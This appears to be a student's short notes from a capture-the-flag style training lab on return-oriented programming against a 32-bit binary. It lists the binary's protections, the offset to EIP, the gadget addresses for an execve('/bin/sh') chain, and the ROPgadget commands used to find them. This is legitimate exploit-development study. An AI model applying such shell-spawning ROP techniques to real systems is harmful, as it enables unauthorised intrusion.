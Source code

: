 # info

```
[*] '/home/roy4801/Desktop/myLecture/20191225_training_pwn0x02/lab/rop1/tmp/rop1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

# note

76 = eip

# gad

execve("/bin/sh", NULL, NULL)
eax=0x0b
ebx=-> "/bin/sh"
ecx = edx = 0

0x080a8c56 : pop eax ; ret
0x080481c9 : pop ebx ; ret
0x0806f041 : xor ecx, ecx ; int 0x80
0x0806ec7b : pop edx ; ret

0x08056d35 : mov dword ptr [edx], eax ; ret

> rg "mov dword ptr \[e.x\]" gad

> 0x0a = '\n' so gets() fucked up

# steps

ROPgadget --binary ./rop1 > gad

rg "pop e.x" gad
rg "mov dword ptr \[e.x\]" gad
